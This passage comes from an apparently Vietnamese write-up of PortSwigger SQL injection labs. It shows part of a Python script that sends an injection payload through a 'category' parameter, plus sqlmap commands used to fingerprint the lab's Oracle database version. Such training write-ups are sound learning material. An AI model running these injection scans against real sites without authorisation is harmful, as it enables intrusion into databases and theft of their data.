 ```python
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/rJjvSBic6.png)

mục đích của chúng ta đã hoàn thành và mình đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/S10hrrsqa.png)

### SQLMAP

- mình đã làm lại bài này với sqlmap
- đầu tiên mình dùng lệnh sau để quét

```sql!
sqlmap -u https://0ad9004c04ceb2d683ea28c100320045.web-security-academy.net/filter?category=Lifestyle --batch
```

và mình được

![ảnh](https://hackmd.io/_uploads/SkEvf7Qha.png)

vậy ở đây lab dùng hệ quản trị CSDL Oracle và chúng ta có thể tấn công UNION với 2 cột

tiếp tục dùng lệnh sau để xem thông tin phiên bản của CSDL này

```sql!
sqlmap -u https://0ad9004c04ceb2d683ea28c100320045.web-security-academy.net/filter?category=Lifestyle --batch --fingerprint -banner
```

![ảnh](https://hackmd.io/_uploads/ryfRmQm3p.png)

vậy mình được version CSDL được lab này dùng là **11.2.0.2.0**

## 6. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

link: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft

### Đề bài

![image](https://hackmd.io/_uploads/rkdPr_3q6.png)
